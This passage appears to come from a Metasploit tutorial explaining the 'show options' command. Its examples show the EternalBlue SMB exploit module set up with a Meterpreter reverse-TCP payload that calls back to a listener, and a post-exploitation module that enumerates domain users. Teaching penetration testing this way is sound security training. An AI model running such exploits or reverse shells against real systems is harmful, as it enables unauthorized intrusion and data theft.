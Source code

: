 The prompt tells us we now have a context set in which we will work. You can see this by typing the show options command.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.220.191    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

This will print options related to the exploit we have chosen earlier. The show options command will have different outputs depending on the context it is used in. The example above shows that this exploit will require we set variables like RHOSTS and RPORT. On the other hand, a post-exploitation module may only need us to set a SESSION ID (see the screenshot below). A session is an existing connection to the target system that the post-exploitation module will use.

```
msf6 post(windows/gather/enum_domain_users) > show options

Module options (post/windows/gather/enum_domain_users):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HOST                      no        Target a specific host
   SESSION                   yes       The session to run this module on.
   USER                      no        Target User for NetSessionEnum

msf6 post(windows/gather/enum_domain_users) >
```
